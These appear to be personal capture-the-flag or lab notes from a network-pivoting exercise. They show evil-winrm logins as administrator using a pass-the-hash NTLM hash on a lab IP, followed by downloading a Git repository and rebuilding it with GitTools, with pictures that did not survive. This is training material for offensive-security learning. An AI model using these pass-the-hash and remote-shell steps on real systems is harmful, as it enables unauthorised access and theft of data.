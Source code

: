 
So rather than going and simply fuzzing we will take a you turn and simply download the source code locally aka move laterally.

Note that we have both the sshuttle and chisel running in order to access the personal webpage
![[Pasted image 20240101153914.png]]
![[Pasted image 20240101153848.png]]
![[Pasted image 20240101153858.png]]



```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```
![[Pasted image 20240101153504.png]]


```
C:\GitStack\repositories\Website.git
```

Will pop up one more shell
```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```

```
download Website.git
```
![[Pasted image 20240101155955.png]]
It sure took a lot of time to download this file b/w 2 proxy's but in the end we are able to download it.

```
mv Website.git .git
```
![[Pasted image 20240101160448.png]]


 the server doesn't need to store the easily readable versions of the files, this means that what we've downloaded isn't actually the full repository, so much as the building blocks we can use to recreate the repo (which is exactly what happens when using `git clone` to create a local copy of a repo!).

In order to extract the information from the repository, we use a suite of tools called GitTools.
```
git clone https://github.com/internetwache/GitTools
```

Git-Tools have 3 tools:
Dumper 
Extractor
Finder

So Extractors fits out requirement so will be using it from now.
